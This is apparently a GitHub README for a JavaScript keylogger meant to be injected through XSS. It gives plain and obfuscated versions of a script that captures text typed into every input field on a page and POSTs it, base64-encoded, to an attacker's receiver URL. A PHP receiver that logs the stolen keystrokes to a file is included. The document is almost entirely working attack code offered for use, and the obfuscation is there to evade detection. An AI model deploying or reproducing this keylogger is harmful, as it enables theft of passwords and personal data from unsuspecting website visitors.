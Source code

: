 Simple Keylogger written in JavaScript to be used in XSS attacks
===

The script creates an event to detect the insertion of text in each text field of type "input" and sends the written content to the specified server that will have the second script called "receiver.php" running.

## JavaScript Source Code

** Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script **

```javascript=
var str = "";
var lastPress = Date.now();
var sent = true;
var declared = false;
var element = "";

var inputs = document.querySelectorAll('input');
for (i = 0; i < inputs.length; i++) {
    inputs[i].oninput = function(e) {
        str = e.target.value;
        element = e.target.outerHTML;
        sent = false;
        lastPress = Date.now();
    }
}

if (declared === false) {
    declared = true;
    var req = new XMLHttpRequest();
    window.setInterval(function() {
        if (sent === false && (Date.now() - lastPress) >= 2000) {
            sent = true;
            req.open("POST","TYPE_THE_RECEIVER.PHP_URL_HERE", true);
            req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
            req.send("str="+btoa(element+" -> "+str));
        }
    }, 500);
}
```

## JavaScript Ofuscated Source Code

** Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script **

```javascript=
var _0x46009d=_0x1166;(function(_0x5240e0,_0xa2a147){var _0x2b658c=_0x1166,_0x471711=_0x5240e0();while(!![]){try{var _0x2785e6=-parseInt(_0x2b658c(0xdc))/0x1*(parseInt(_0x2b658c(0xdf))/0x2)+-parseInt(_0x2b658c(0xd9))/0x3+-parseInt(_0x2b658c(0xdb))/0x4+-parseInt(_0x2b658c(0xe2))/0x5+-parseInt(_0x2b658c(0xeb))/0x6+parseInt(_0x2b658c(0xde))/0x7*(-parseInt(_0x2b658c(0xe5))/0x8)+parseInt(_0x2b658c(0xdd))/0x9;if(_0x2785e6===_0xa2a147)break;else _0x471711['push'](_0x471711['shift']());}catch(_0x5579f9){_0x471711['push'](_0x471711['shift']());}}}(_0x1591,0x629fd));var str='',lastPress=Date[_0x46009d(0xe8)](),sent=!![],declared=![],element='',inputs=document[_0x46009d(0xda)](_0x46009d(0xd5));for(i=0x0;i<inputs[_0x46009d(0xd8)];i++){inputs[i][_0x46009d(0xe3)]=function(_0x37b8b9){var _0x83cbfa=_0x46009d;str=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd6)],element=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd7)],sent=![],lastPress=Date[_0x83cbfa(0xe8)]();};}function _0x1591(){var _0x4419c4=['str=','open','2552125XAdCtV','oninput','setInterval','589216BpoPwR','TYPE_THE_RECEIVER.PHP_URL_HERE','application/x-www-form-urlencoded','now','target','send','2332524ujwUnQ','input','value','outerHTML','length','908493niXoGr','querySelectorAll','2406004KvWXcB','16739DEdXzG','28635201KKIsoe','56tjjgLb','46uBySdK'];_0x1591=function(){return _0x4419c4;};return _0x1591();}function _0x1166(_0x31ece7,_0x2e443e){var _0x159156=_0x1591();return _0x1166=function(_0x116607,_0x4a095d){_0x116607=_0x116607-0xd5;var _0x226807=_0x159156[_0x116607];return _0x226807;},_0x1166(_0x31ece7,_0x2e443e);}if(declared===![]){declared=!![];var req=new XMLHttpRequest();window[_0x46009d(0xe4)](function(){var _0x40b287=_0x46009d;sent===![]&&Date[_0x40b287(0xe8)]()-lastPress>=0x7d0&&(sent=!![],req[_0x40b287(0xe1)]('POST',_0x40b287(0xe6),!![]),req['setRequestHeader']('Content-type',_0x40b287(0xe7)),req[_0x40b287(0xea)](_0x40b287(0xe0)+btoa(element+'\x20->\x20'+str)));},0x1f4);}
```

## PHP Source Code

```php=
<?php
    header('Access-Control-Allow-Origin: *');
    if (isset($_POST['str']) && strlen($_POST['str']) > 0) {
        file_put_contents("keylog.log", date('Y/m/d h:i:s')." | ".base64_decode($_POST['str']).PHP_EOL, FILE_APPEND);
    }
?>
```
